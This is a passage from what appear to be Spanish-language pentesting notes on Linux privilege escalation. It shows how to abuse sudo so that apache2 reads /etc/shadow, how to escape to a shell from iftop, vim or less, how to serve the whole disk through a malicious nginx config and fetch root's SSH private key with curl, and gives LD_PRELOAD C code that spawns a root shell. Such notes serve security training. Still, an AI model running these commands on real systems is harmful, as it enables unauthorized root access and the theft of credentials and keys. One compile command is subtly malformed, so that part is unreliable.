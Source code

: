 Similarmente con apache2 podemos indicar que se use como fichero de configuracion un archivo arbitraro, lo cual escribira segmentos como errores de sintaxis:

``` bash
sudo apache2 -f /etc/shadow
```

---
## Escalada por escape a shell

En cuanto a escapes a shell, muchos programas lo permiten, como iftop. Mediante ! podemos escribir comandos, si utilizamos sudo iftop podremos instanciar bash como root.

Otro ejemplo mas seria el sudo shell scape. Como por ejemplo en vim, less, more ... O cualquier binario que tenga salidas a comandos, podemos ver muchos ejemplos en GTFOBins. Si por ejemplo podemos usar cat como sudo podriamos ver /etc/shadow, pero habria que crackear contraseñas, pero sin embargo podemos por ejemplo leer claves SSH de admins. (/home/\[user\]/.ssh/id_rsa o /root/.ssh/id_rsa)

---
## Escalada por Directory Listing the EvilNGINX

Podemos utilizar un fichero de cofiguracion de nginx malicioso que lo que era sera crear un servidor web en un puerto x y que utilizara como document root la raiz del disco duro, sirviendo asi todo el dispositivo. Utiliza autoindex on para que el sistema se vea como un directory listing.

``` bash
sudo nginx -c ~/tools/nginx/evil_nginx.conf
```

Y despues podriamos utilizar:

``` bash
curl https://[lPEPip]:[port]/root/.ssh/id_rsa > id_rsa
```


---
## Escalada por variables de entorno

LD_PRELOAD carga un objeto compartido antes que cualquier otro cuando se ejecuta un programa, sirve para ocultar codigo malicioso en procesos benignos.

En este caso:

``` bash
user@debian:~/tools/environment$ cat preload.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}

user@debian:~/tools/environment$ gcc -fPIC shared -nostartfiles -o /tmp/preload.so preload.c
```
